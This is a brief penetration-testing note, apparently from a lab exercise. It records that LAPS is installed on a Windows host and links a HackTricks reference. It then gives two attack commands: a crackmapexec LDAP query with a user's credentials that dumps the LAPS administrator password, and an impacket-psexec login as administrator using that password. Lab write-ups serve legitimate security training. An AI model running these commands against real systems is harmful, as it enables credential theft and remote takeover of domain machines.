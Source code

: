 LAPS is found C:\\Program Files\\LAPS
[https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/laps](#https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/laps)


-  poetry run crackmapexec ldap 192\.168\.209\.122 \-u 'hutch\\fmcsorley' \-p 'CrabSharkJellyfish192' \-\-kdcHost 192\.168\.209\.165 \-M laps
-  impacket\-psexec hutch\.offsec/administrator:'L6f7S#9I1\+0Ovw'@192\.168\.209\.122